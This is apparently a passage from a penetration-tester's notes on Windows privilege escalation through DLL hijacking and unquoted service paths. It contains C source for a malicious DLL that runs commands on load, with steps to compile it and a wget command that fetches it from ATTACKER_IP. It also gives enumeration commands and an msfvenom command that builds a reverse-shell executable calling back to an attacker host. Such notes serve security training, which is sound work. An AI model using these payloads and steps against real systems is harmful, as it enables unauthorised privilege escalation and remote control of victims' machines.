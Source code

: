   * ```ProcMon``` (Process Monitor) can be used to find potential DLL hijacking vulnerabilities. However, it requires admin privileges, so instead of checking on target system, we would need to install the software on test environment and conduct research.

  * Skeleton code for malicious DLL:

    ```shell
    #include <windows.h>

    BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
      if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k whoami > C:\\Temp\\dll.txt");
        ExitProcess(0);
      }
      return TRUE;
    }
    #this file will execute 'whoami' command and save output in 'dll.txt'
    ```

    ```shell
    apt install gcc-mingw-w64-x86-64

    #compile and generate DLL file using mingw compiler
    x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll

    #to download malicious DLL file to target system in \Temp directory
    #PowerShell command
    wget -O hijackme.dll ATTACKER_IP:PORT/hijackme.dll

    #in target machine, stop and start dllsvc service
    sc stop dllsvc & sc start dllsvc
    ```

* Unquoted Service Path:

  * If the binary path for a service has spaces in its name and does not have quotes set, Windows will append ".exe" and start looking for executables, starting with the shortest possible path.

  * This vulnerability can be exploited by placing an .exe file in a location the service might look for.

  * Requirements  - being able to write to a folder on the path; being able to restart the service.

    ```shell
    #to check running services
    wmic service get name,displayname,pathname,startmode
    #check for services with unquoted paths

    sc qc unquotedsvc
    #check binary path of service

    #check privileges on folders in the binary path
    #accesschk binary given
    .\accesschk64.exe /accepteula -uwdq "C:\Program Files\""
    #find writable folder
    ```

    ```shell
    #on attacking machine, use msfvenom
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACK_IP LPORT=8888 -f exe > executable_name.exe
